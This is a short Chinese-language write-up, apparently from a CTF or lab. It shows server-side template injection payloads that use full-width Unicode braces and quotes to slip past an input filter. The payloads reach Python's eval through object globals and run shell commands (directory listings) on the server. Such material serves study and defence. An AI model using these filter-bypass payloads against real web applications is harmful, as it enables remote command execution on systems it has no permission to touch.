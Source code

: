 ![](图片/Pasted%20image%2020241222002351.png)
替换中英文字符 绕过防御
构建最后payloads
```
︷︷a.__init__.__globals__.__builtins__.eval(＂__import__(＇os＇).popen(＇ls＇).read()＂)︸︸
```



```
︷︷a.__init__.__globals__.__builtins__.eval(＂__import__(＇os＇).popen(＇ls /＇).read()＂)︸︸
```

![](图片/Pasted%20image%2020241222002631.png)
